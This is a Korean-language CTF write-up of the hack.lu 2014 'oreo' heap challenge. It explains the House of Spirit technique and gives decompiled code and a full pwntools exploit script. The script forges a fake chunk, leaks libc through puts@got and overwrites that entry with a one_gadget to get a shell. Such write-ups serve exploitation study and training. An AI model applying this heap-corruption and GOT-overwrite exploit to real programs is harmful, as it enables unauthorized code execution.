 ```yaml
---
title: hack.lu 2014 - oreo
date: 2018-09-17 14:19:53
categories:
- Heap Exploit
- CTF write up
tags:
- House Of Spirit
---
```

```
Welcome to the OREO Original Rifle Ecommerce Online System!

     ,______________________________________
    |_________________,----------._ [____]  -,__  __....-----=====
                   (_(||||||||||||)___________/                   |
                      `----------'   OREO [ ))"-,                   |
                                           ""    `,  _,--....___    |
                                                   `/           """"
	
What would you like to do?
```



## Binary Information

```
oreo: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=f591eececd05c63140b9d658578aea6c24450f8b, stripped
```

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



## House of Spirit

:: free 해줄 때 넣어주는 인자 값을 fake_chunk 주소로 변경해 fake_chunk 메모리에 malloc이 되도록 한다.



```c
unsigned int Message_order()
{
  unsigned int canary; // ST1C_4

  canary = __readgsdword(0x14u);
  printf("Enter any notice you'd like to submit with your order: ");
  fgets(order_message, 128, stdin);
  Make_null(order_message);
  return __readgsdword(0x14u) ^ canary;
}
```

```
.bss:0804A2A8 order_message   dd ?                    ; DATA XREF: Message_order+23↑r
.bss:0804A2A8                                         ; Message_order+3C↑r ...
.bss:0804A2AC                 align 20h
.bss:0804A2C0 order_addr      db    ? ;               ; DATA XREF: main+29↑o
.bss:0804A2C1                 db    ? ;
.bss:0804A2C2                 db    ? ;
```

bss 영역을 보면 message를 출력할 때, order_message 변수에 message가 저장되어 있는 order_addr 주소를 넣고  영역을 포인터로 전달한다.



rifle 구조체

```
00000000 rifle           struc ; (sizeof=0x38, align=0x4, copyof_5)
00000000 description     db 25 dup(?)
00000019 name            db 26 dup(?)
00000033                 db ? ; undefined
00000034 addr            dd ?                    ; offset
00000038 rifle           ends
```

```c
unsigned int Show_rifles()
{
  rifle *i; // [esp+14h] [ebp-14h]
  unsigned int canary; // [esp+1Ch] [ebp-Ch]

  canary = __readgsdword(0x14u);
  printf("Rifle to be ordered:\n%s\n", "===================================");
  for ( i = malloc_addr; i; i = (rifle *)i->addr )
  {
    printf("Name: %s\n", i->name);
    printf("Description: %s\n", i);
    puts("===================================");
  }
  return __readgsdword(0x14u) ^ canary;
}
```

rifle을 보여주는 메뉴인데, rifle 구조체의 addr 변수 부분을 이용해 null 일 때 까지 출력을 합니다. 이를 이용해 우리가 원하는 addr에 fake_chunk addr을 넣어주고 이 부분이 free 가 되게 한다. fake_chunk에서 malloc size도 맞춰주어야 하므로 rifle count 가 0x41 or 0x40이 되게 한다. 이 malloc 부분이 order_message 변수 부분을 포함하게 된다.

order_message 변수에 puts@got 를 넣고 이 주소에 one_gadget을 넣으면 쉘을 획득할 수 있다.



```python
from pwn import *
 
p = process("./oreo")
#context.log_level = 'debug'
 
def add(name, desc):
    p.sendline('1')
    p.sendline(name)
    p.sendline(desc)
 
def order():
    p.sendline('3')
 
def message(msg):
    p.sendline('4')
    p.sendline(msg)
 
def status():
    p.sendline('5')
    p.recvuntil('Message: ')
    leak = p.recvuntil('=')
    return leak[0:4]
 
fake = 0x804a2a0
puts = 0x804a248 
 
for i in range(0,0x40-1):
    add(str(i),str(i))
 
message(p32(0x00)*9+p32(0x40))
 
add("x"*27+p32(fake+0x8),'xx')
 
order()
 
add("aa" ,p32(puts))
 
leak = status()
offset = 0x5fca0
libc = u32(leak) - offset
log.info("Libc_base :::"+hex(libc))
 
one_gadget = 0x5fbc5
message(p32(libc+one_gadget))
 
p.interactive()
 
```

